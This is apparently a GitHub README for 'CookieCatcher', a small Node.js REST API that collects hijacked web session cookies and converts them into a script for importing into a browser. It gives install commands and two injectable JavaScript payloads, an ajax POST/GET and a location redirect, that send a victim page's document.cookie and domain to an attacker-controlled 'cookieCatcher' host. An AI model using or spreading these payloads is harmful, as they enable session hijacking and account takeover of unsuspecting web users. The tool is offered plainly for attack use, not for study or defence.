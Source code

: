 # CookieCatcher (v 0.0.1)
This is a mini and simple API REST for management of Web sessions that were hijacked.

<center><img src="http://2.bp.blogspot.com/-1H9hR_zOsP8/VTflh5wSpEI/AAAAAAAAAPs/MoLPDkpRRuI/s1600/Screen%2BShot%2B2015-04-22%2Bat%2B1.18.09%2BPM.png"></center>

### Features (that is simple)
- Capture request through GET, POST, HEAD, OPTIONS, DELETE, PUT or PATCH (methods)
- Parse to cookies format
- Create script to import into your browser



### How to install this little devil?
##### Require
 - nodejs 0.10+

```sh
$ git https://github.com/JavaGarcia/CookieCatcher.git
$ cd CookieCatcher
$ npm install
$ sudo DEBUG=APIcookies:* ./bin/www
```

### Scheme to send requests
Example with ajax (POST or GET)
```javascript
$.ajax({
        type: "POST",//or GET
        url: "http://cookieCatcher/session",//obviously change (cookieCatcher).
        data:"domain="+document.domain+"&cookie="+document.cookie,
        success: function(datos){/*if you want to show something.*/}
});
```
Normal request GET (redirect)
```javascript
document.location.href="http://cookieCatcher/session/"+document.domain+"/"+document.cookie;
```
You can see the file: example.html

#### Made with love in Colombia.
# License:

CookieCatcher is licensed under the GPLv3: http://www.gnu.org/licenses/gpl-3.0.html. 

